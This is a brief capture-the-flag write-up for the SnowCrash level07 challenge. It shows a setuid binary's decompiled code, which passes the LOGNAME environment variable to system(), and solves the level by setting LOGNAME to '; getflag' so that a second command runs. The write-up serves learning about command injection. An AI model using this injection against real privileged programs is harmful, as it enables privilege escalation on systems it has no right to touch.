 ```bash
level07@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
level07@SnowCrash:~$ 
```

Using a reverse engineering tools like `BinaryNinja`, `Angr` and `Ghidra` to get hints of want the executable do.

Using this website https://dogbolt.org we get

```c
int32_t main(int argc, char** argv, char** envp)
{
    gid_t eax = getegid();
    uid_t eax_1 = geteuid();
    setresgid(eax, eax, eax);
    setresuid(eax_1, eax_1, eax_1);
    char* var_1c = nullptr;
    asprintf(&var_1c, "/bin/echo %s ", getenv("LOGNAME"));
    return system(var_1c);
}
```

The code run a system call with the value of `var_1c` that being initialized by `asprintf` function
%s will get the value of the environment variable `LOGNAME`

```bash
LOGNAME='; getflag'
./level07
```
